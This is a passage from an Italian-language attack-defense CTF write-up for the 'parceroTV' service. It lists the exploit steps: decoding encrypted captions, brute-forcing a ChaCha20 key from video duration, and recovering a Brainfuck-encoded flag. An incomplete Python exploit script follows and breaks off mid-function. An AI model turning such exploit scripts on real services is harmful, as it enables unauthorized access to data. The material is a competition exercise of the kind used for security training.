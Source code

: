 Il percorso d’exploit era:

1. L’attaccante individua uno short con didascalie tramite l’endpoint `/get_shorts`.
2. Scarica il file di didascalie cifrate `.vtt`.
3. Esegue il reverse della codifica in parole spagnole per ottenere il ciphertext grezzo.
4. Esegue un brute-force della durata del video (lo script di exploit ha usato con successo valori come `4.6` e `2.5` secondi) per generare la chiave ChaCha20 corretta.
5. Con la chiave corretta, decritta il ciphertext per rivelare il payload Brainfuck contenente il flag.

### Exploit

Qui puoi leggere gli script di exploit che ho scritto con NPI.

```python
#!/bin/env python3

from pwn import *
import requests
import sys
import json
import string
import random

service_name = 'parceroTV'
ip = sys.argv[1]

alph = string.ascii_uppercase + string.digits

if service_name:
    attacksjson = requests.get(f'https://9.enowars.com/scoreboard/attack.json').json()
    getid = attacksjson['services'][service_name][ip]


def add_metadata(input_path: str,
                 output_path: str,
                 title: str = None,
                 artist: str = None,
                 genre: str = None) -> None:
    cmd = ["ffmpeg", "-i", input_path]

    if title:
        cmd += ["-metadata", f"title={title}"]
    if artist:
        cmd += ["-metadata", f"artist={artist}"]
    if genre:
        cmd += ["-metadata", f"genre={genre}"]

    cmd += ["-c", "copy", output_path]

    subprocess.run(cmd, check=True, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)

def brainfuck(input):
    ...
    return output

def attack(fid=None):
    try:
        username_f = fid['0'][0]
        URL = f'http://{ip}:7777'
        assert username_f is not None, "User ID must be set"

        username, password = ''.join(random.choices(alph, k=12)), ''.join(random.choices(alph, k=12))
        s = requests.Session()
```
